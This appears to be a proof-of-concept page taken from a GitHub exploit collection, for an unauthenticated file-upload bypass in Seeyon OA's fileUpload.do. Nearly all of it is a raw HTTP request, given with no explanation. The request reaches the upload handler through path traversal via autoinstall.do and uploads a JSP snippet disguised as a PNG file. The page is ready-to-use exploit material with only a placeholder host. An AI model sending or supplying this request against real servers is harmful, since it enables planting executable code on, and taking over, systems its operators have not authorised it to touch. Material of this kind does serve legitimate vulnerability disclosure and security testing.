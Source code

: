 # seeyon_fileUpload.do_fileupload
from: https://github.com/wy876/POC/blob/main/%E8%87%B4%E8%BF%9C%E4%BA%92%E8%81%94-OA%E5%89%8D%E5%8F%B0fileUpload.do%E5%AD%98%E5%9C%A8%E7%BB%95%E8%BF%87%E6%96%87%E4%BB%B6%E4%B8%8A%E4%BC%A0%E6%BC%8F%E6%B4%9E.md

2024.4.15 @@


```
POST /seeyon/autoinstall.do/../../seeyon/fileUpload.do?method=processUpload HTTP/1.1
Host: your-ip
Accept: text/html, image/gif, image/jpeg, *; q=.2, */*; q=.2
Content-Type: multipart/form-data; boundary=00content0boundary00
User-Agent: Mozilla/5.0 (Windows; U; Windows NT 5.1; zh-CN) AppleWebKit/523.15 (KHTML, like Gecko, Safari/419.3) Arora/0.3 (Change: 287 c9dfb30)

--00content0boundary00
Content-Disposition: form-data; name="type"


--00content0boundary00
Content-Disposition: form-data; name="extensions"

png
--00content0boundary00
Content-Disposition: form-data; name="applicationCategory"


--00content0boundary00
Content-Disposition: form-data; name="destDirectory"


--00content0boundary00
Content-Disposition: form-data; name="destFilename"


--00content0boundary00
Content-Disposition: form-data; name="maxSize"


--00content0boundary00
Content-Disposition: form-data; name="isEncrypt"

false
--00content0boundary00
Content-Disposition: form-data; name="file1"; filename="1.png"
Content-Type: Content-Type: application/pdf

<% out.println("hello");%>
--00content0boundary00--
```
